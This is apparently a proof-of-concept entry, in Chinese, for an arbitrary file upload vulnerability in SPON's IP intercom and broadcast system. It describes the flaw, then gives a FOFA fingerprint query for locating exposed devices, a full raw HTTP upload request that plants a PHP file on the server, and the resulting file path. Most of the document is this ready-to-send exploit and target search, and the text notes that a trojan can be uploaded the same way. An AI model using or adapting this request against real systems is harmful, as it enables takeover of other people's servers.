## 世邦通信SPON-IP网络对讲广播系统addscenedata.php任意文件上传漏洞

世邦通信 SPON IP网络对讲广播系统 addscenedata.php 存在任意文件上传漏洞，攻击者可以通过漏洞上传任意文件甚至木马文件，从而获取服务器权限。

## fofa

```
icon_hash="-1830859634"
```

## poc

```
POST /php/addscenedata.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Content-Length: 279
Content-Type: multipart/form-data; boundary=b0b0dcc3da2dd47434dfbafd7be4c6d5965a5bf03b1e9affc7e72eea848b
Accept-Encoding: gzip, deflate, br
Connection: close

--b0b0dcc3da2dd47434dfbafd7be4c6d5965a5bf03b1e9affc7e72eea848b
Content-Disposition: form-data; name="upload"; filename="test.php"
Content-Type: application/octet-stream

<?php echo md5(1);unlink(__FILE__);?>
--b0b0dcc3da2dd47434dfbafd7be4c6d5965a5bf03b1e9affc7e72eea848b--
```

![image-20240613135537911](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131355980.png)

文件路径`http://127.0.0.1/images/scene/test.php`

